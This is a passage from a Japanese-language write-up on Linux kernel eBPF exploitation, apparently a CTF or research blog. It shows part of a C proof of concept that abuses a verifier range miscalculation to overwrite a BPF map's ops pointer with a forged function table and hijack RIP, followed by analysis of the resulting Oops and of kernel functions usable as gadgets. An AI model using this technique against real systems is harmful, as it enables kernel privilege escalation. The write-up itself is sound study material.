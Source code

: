 ```rip-poc.c
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 2, 1),              // ensure 0<=R7<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    // exploit r6 range 
    BPF_ALU64_REG(BPF_RSH, BPF_REG_6, BPF_REG_7),       // r6 >>= r7 (r6 regarded as 0, actually 1)
    BPF_ALU64_IMM(BPF_NEG, BPF_REG_6, 0),               // r6 *= -1
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_6),                // r7 = r6
    // overwrite ops into forged ops
    BPF_MOV64_IMM(BPF_REG_1, (fakeops_addr>>32) & 0xFFFFFFFFUL),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, fakeops_addr & 0xFFFFFFFFUL),
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, N),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_8, BPF_REG_6),       // r8 += r6
    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_1, 0),
    
    // Go Home
    BPF_MOV64_IMM(BPF_REG_0, 0),                        // r0 = 0
    BPF_EXIT_INSN()
  };

  int evilwriter= create_filtered_socket_fd(reader_insns, ARRSIZE(reader_insns));
  if(evilwriter < 0){
    errExit("reader not initialized");
  }

  // setup fake table
  for(int ix=0; ix!=7; ++ix){
    array_update(control_map, ix+2, 0xcafebabedeadbeef);
  }

  array_update(control_map, 0, 1);
  array_update(control_map, 1, 0);
  trigger_proc(evilwriter);
  const ulong tmp = get_ulong(control_map, 0);
```
![](https://i.imgur.com/UlkeuJW.png)
 
ここでOopsが起きた原因は、用意したfaketableの+0x20にアクセスし、不正なアドレス0xcafebabedeadbeefにアクセスしようとしたからである。ジャンプテーブルの+0x20というのは`map_lookup_elem()`である。
![](https://i.imgur.com/zKB4k7t.png)


さて、このようにRIPを取ることはできるが、問題はもとの関数テーブルの全ての関数の第一引数が`struct bpf_map *map`であるということである。つまり、第一引数は任意に操作することができない。よって、関数の中でいい感じに第二引数以降を利用していい感じの処理をしてくれる関数があると嬉しい。その観点で`kernel/bpf/arraymap.c`を探すと、`fd_array_map_delete_elem()`が見つかる。これは、`perf_event_array_ops`とか`prog_array_ops`とかのメンバである。(尚、`map_array_ops`の該当メンバである`array_map_delete_elem()`は`-EINVAL`を返すだけのニート関数である。お前なんて関数やめてインラインになってしまえばいい)。
```kernel/bpf/arraymap.c
static int fd_array_map_delete_elem(struct bpf_map *map, void *key)
{
	struct bpf_array *array = container_of(map, struct bpf_array, map);
	void *old_ptr;
	u32 index = *(u32 *)key;

	if (index >= array->map.max_entries)
		return -E2BIG;

	old_ptr = xchg(array->ptrs + index, NULL);
	if (old_ptr) {
		map->ops->map_fd_put_ptr(old_ptr);
		return 0;
	} else {
		return -ENOENT;
```